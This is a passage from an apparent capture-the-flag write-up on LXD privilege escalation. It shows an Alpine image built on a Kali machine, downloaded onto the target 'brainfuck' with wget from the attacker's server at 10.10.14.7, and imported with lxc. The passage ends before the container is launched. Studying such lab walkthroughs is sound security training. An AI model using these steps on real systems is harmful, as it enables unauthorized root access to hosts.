Download alpine builder and run the build-alpine script as root.
```
┌──(code㉿kali)-[~]
└─$ git clone https://github.com/saghul/lxd-alpine-builder.git
Cloning into 'lxd-alpine-builder'...
remote: Enumerating objects: 42, done.
remote: Counting objects: 100% (15/15), done.
remote: Compressing objects: 100% (14/14), done.
remote: Total 42 (delta 5), reused 4 (delta 1), pack-reused 27
Receiving objects: 100% (42/42), 3.11 MiB | 2.93 MiB/s, done.
Resolving deltas: 100% (11/11), done.

┌──(code㉿kali)-[~]
└─$ cd lxd-alpine-builder/

┌──(code㉿kali)-[~/lxd-alpine-builder]
└─$ ls
alpine-v3.13-x86_64-20210218_0139.tar.gz  build-alpine  LICENSE  README.md

┌──(code㉿kali)-[~/lxd-alpine-builder]
└─$ sudo ./build-alpine 
[sudo] password for code: 
Determining the latest release... v3.14
Using static apk from http://dl-cdn.alpinelinux.org/alpine//v3.14/main/x86_64
Downloading apk-tools-static-2.12.7-r0.apk
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
Downloading alpine-keys-2.4-r0.apk

```

Copy the build to the local web server and use wget on the target to pull it down. Import the image.
```
orestis@brainfuck:~$ wget http://10.10.14.7/alpine.tar.gz
--2021-11-13 01:58:09--  http://10.10.14.7/alpine.tar.gz
Connecting to 10.10.14.7:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3232346 (3.1M) [application/x-gzip]
Saving to: ‘alpine.tar.gz’

alpine.tar.gz            100%[==================================>]   3.08M  1.59MB/s    in 1.9s    

2021-11-13 01:58:11 (1.59 MB/s) - ‘alpine.tar.gz’ saved [3232346/3232346]

orestis@brainfuck:~$ lxc image import ./alpine.tar.gz --alias myimage
Generating a client certificate. This may take a minute...
If this is your first time using LXD, you should also run: sudo lxd init
To start your first container, try: lxc launch ubuntu:16.04

Image imported with fingerprint: 65923e2b761466df6755c8e73c180d623af00c2952d6ba633861021315fb4a7a

orestis@brainfuck:~$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |          UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
| myimage | 65923e2b7614 | no     | alpine v3.14 (20211112_18:49) | x86_64 | 3.08MB | Nov 12, 2021 at 11:58pm (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+

```